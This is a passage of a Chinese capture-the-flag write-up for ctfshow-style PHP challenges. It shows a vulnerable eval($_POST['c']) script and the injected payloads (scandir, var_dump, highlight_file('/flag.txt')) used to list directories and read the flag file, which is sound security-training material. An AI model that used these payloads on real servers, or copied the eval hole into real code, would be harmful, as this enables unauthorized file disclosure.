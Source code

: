 `c=highlight_file('flag.php');` 结果

```
$flag="秀秀得了,这次不在这里"; 
```

`c=print_r(scandir('/'));` 返回

```
Array ( [0] => . [1] => .. [2] => .dockerenv [3] => bin [4] => dev [5] => etc [6] => flag.txt [7] => home [8] => lib [9] => media [10] => mnt [11] => opt [12] => proc [13] => root [14] => run [15] => sbin [16] => srv [17] => sys [18] => tmp [19] => usr [20] => var ) 
```

有个flag.txt ，构造 payload:

```
c=highlight_file('/flag.txt');
```

## web67~var_dump打印

```php
<?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

找目录，发现

```
Warning: print_r() has been disabled for security reasons in /var/www/html/index.php(17) : eval()'d code on line 1
```

用 `c=var_dump(scandir('.'));`

```
array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(8) "flag.php" [3]=> string(9) "index.php" } 
```

`c=highlight_file('flag.php');` 又是假的。

最终

```
c=highlight_file('/flag.txt');
```

## web68~include读取
